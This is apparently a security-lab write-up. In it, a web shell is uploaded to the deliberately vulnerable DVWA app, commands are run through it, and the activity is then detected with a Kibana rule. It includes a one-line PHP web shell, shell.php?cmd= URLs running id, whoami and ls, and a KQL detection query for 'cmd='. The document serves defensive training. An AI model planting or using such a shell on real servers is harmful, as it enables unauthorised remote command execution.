# 🔥 Attack 04 – Web Shell (DVWA)

## 📌 Description

In this scenario, the attacker exploits the file upload functionality of DVWA to upload a web shell (`.php`) and execute remote commands on the server via HTTP requests.

---

## 🎯 Objectives

* Successfully upload a web shell to the server
* Execute remote commands via URL
* Capture logs on the system (Apache access log)
* Detect the activity using a detection rule in Kibana

---

## 🖥️ Environment

* **Attacker:** Kali Linux (10.10.1.130)
* **Victim:** Ubuntu + DVWA (10.10.1.129)
* **Monitoring:** Elastic Stack (Filebeat + Kibana)

---

## 🚨 Detection Rule

### Rule Type

* Custom Query

### Index pattern

```
filebeat-*
```

### Query

```kql
event.dataset: "apache.access" AND message: (".php?cmd=" OR "cmd=")
```



---

## 🧠 Detection Explanation

* `.php?cmd=` → indicator of web shell execution
* `cmd=` → commonly used parameter to pass commands
* HTTP GET request → direct execution on the web server

---

## ⚙️ Steps

### 1. Access DVWA upload functionality

```
http://10.10.1.129/DVWA/vulnerabilities/upload/
```



---

### 2. Create a simple web shell

Create file `shell.php`:

```php
<?php system($_GET['cmd']); ?>
```



---

### 3. Upload the web shell

* Select file `shell.php`
* Upload via DVWA interface



---

### 4. Access and execute commands

Example:

```
http://10.10.1.129/DVWA/hackable/uploads/shell.php?cmd=id
```



```
http://10.10.1.129/DVWA/hackable/uploads/shell.php?cmd=whoami
```



```
http://10.10.1.129/DVWA/hackable/uploads/shell.php?cmd=ls
```



---

## 📄 Logs on Victim




---

## 📊 Logs in Kibana

* Index: `filebeat-*`
* Dataset: `apache.access`

Key fields:

* `event.dataset: apache.access`
* `message` contains the HTTP request
* URL includes `cmd=`



---

## 🎯 Results

* ✔ Successfully uploaded web shell
* ✔ Executed remote commands (RCE)
* ✔ Logs recorded in Apache
* ✔ Kibana detected and generated alerts



</br>



---

## ⚠️ Analysis

* This is a form of **Remote Command Execution (RCE)** via web shell

* Without proper file upload controls:

  * attacker can compromise the server

* Detection depends on:

  * web server logs
  * SIEM log parsing capability

---

## 🛡️ Mitigation

* Validate uploaded file types (whitelist)
* Disable execution of `.php` in upload directories
* Use a WAF to block requests containing `cmd=`
* Monitor abnormal access logs

---

## 📌 MITRE ATT&CK Mapping

* **Tactic:** Execution
* **Technique:** T1059 – Command and Scripting Interpreter
* **Technique:** T1505 – Server Software Component

---

## ✅ Conclusion

Web shell attacks allow attackers to execute remote commands via HTTP requests.

Detection based on URL patterns (such as `cmd=`) is effective in lab environments, but in real-world scenarios, more advanced detection techniques should be applied.
